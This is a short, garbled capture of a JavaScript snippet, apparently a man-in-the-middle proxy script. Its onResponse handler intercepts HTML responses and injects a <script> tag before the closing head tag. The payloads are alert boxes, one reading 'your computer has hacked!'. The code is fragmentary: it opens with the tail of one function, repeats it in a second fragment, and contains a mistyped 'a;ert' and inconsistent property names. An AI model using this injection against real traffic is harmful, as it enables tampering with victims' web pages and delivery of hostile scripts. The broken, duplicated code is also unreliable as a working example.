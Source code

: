 ```javascript
            res.body = body.replace(



                '</head>',



                '<script>a;ert(/1/)</script>'



            );



        }



    }



}
function onResponse(req,res){



    if(res.ContentType.indexOf('text/html')==0){



        var body=res.ReadBody();



        if(body.indexOf('</head>')!=-1){



            res.Body=body.replace(



                '</head>',



               '<script type="text/javascript">alert("your computer has hacked!")</script></head>'



            );



            }



        }

```